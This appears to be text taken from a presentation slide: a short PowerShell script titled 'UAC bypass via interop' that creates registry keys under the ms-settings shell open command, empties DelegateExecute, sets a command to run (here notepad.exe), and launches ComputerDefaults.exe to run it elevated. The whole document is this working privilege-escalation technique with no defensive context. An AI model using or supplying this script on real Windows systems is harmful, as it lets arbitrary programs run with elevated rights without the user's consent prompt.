

# UAC bypass via interop
New-Item "HKCU:\software\classes\ms-settings\shell\open\command" -Force;

New-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force;

Set-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "(default)" -Value "notepad.exe" -Force;

Start-Process "C:\Windows\System32\ComputerDefaults.exe"